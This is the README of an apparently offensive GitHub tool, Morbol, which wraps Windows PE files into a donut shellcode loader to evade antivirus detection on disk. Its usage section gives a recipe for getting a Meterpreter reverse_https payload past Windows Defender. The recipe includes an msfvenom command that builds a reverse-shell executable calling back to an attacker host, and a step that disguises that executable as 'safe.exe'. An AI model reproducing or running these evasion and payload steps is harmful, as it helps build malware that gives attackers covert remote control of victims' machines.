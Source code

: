 # Morbol

Wraps PE Files (PIE required) into a shellcode loader via donut. This mainly evades detection on *disk*.

## Setup

```
go get golang.org/x/sys/windows
pip3 install donut-shellcode
sudo apt-get install upx
```

## Usage

In my experience the only reliable way to evade defender with meterpreter is to use a reverse_https payload with a custom cert.

- Modify `/etc/ssl/openssl.cnf` so that `CipherString = DEFAULT`
- openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
- set HandlerSSLCert on the server side listener

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=... LPORT=...  HandlerSSLCert=... -f exe  > msf.exe
python3 morbol.py msf.exe safe.exe
```


## Credit

Heavily based on:
* https://posts.specterops.io/going-4-a-run-eb263838b944
* https://github.com/D00MFist/Go4aRun

